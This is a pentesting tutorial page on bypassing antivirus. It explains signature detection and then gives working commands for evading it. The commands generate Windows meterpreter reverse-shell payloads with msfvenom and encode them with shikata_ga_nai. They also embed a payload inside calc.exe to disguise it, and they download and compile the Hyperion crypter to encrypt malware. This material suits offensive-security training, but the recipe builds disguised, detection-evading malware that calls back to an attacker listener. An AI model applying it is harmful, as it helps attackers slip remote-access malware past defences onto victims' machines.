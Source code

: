 # Bypassing antivirus

So first of all, what is a antivirus program and how does it work?

## How does it work?

Antivirus normally uses blacklisting as their methodology. They have a huge database full of signatures for different known malware. Then the antivirus just scans the disk and search for any of those signatures.

## How do we bypass it?

So since there are many different antivirus and they all have different databases of signatures it is important for us to know what antivirus our target uses. Once we know that we can use virtustotal.com to upload our malicious files to see if that specific antivirus finds it.

So what we need to do is to change the malware enough so that the signature changes and the antivirus is not able to identify the file as malicious.

There are a few different techniques for doing this.

### Encoding

We can encode our malware in different ways. This can be done with msfvenom. Notice how we set the `-e` flag here, and then use the `shikata_ga_nai` encoding. This is not that effective since antivirus-vendors have access to metasploit as well.

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

### Embed in non-malicious file

Another way is to embed our payload in a non-malicious file.

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -x calc.exe -o
bad_calc.exe
```

### Encrypting the malware

In order to obfuscate our malware we can encrypt it, and thus radically changing the signature. One much mentioned tool for doing that is Hyperion. It is a windows binary but we can compile and run it from linux as well. This worked for me \(october 2016\)

```text
wget https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/Hyperion-1.2.zip
unzip Hyperion-1.2.zip
i686-w64-mingw32-c++ Hyperion-1.2/Src/Crypter/*.cpp -o hyperion.exe
```

In Kali you have hyperion 1 included. However for it to work you have to run it from it's correct path. So go to `/usr/share/veil-evasion/tools/hyperion`

And run it like this

```text
wine hyperion /path/to/file.exe encryptedfile.exe
```

